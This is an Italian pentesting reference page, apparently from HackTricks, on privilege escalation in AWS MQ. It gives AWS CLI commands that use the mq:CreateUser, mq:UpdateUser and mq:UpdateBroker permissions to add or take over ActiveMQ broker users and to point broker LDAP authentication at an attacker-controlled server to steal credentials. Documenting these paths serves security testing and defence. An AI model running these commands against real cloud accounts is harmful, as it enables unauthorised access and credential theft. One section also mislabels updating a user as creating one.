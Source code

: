 # AWS - MQ Privesc

{{#include ../../../banners/hacktricks-training.md}}

## MQ

Per ulteriori informazioni su MQ controlla:

{{#ref}}
../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

Con questi permessi puoi **creare un nuovo utente in un broker ActimeMQ** (questo non funziona in RabbitMQ):
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**Impatto Potenziale:** Accesso a informazioni sensibili navigando attraverso ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Con questi permessi puoi **creare un nuovo utente in un broker ActimeMQ** (questo non funziona in RabbitMQ):
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**Impatto Potenziale:** Accesso a informazioni sensibili navigando attraverso ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

Se un broker utilizza **LDAP** per l'autorizzazione con **ActiveMQ**. È possibile **cambiare** la **configurazione** del server LDAP utilizzato in **uno controllato dall'attaccante**. In questo modo l'attaccante sarà in grado di **rubare tutte le credenziali inviate tramite LDAP**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Se in qualche modo riuscissi a trovare le credenziali originali utilizzate da ActiveMQ, potresti eseguire un MitM, rubare le credenziali, utilizzarle nel server originale e inviare la risposta (forse semplicemente riutilizzando le credenziali rubate potresti farlo).

**Impatto Potenziale:** Rubare le credenziali di ActiveMQ

{{#include ../../../banners/hacktricks-training.md}}

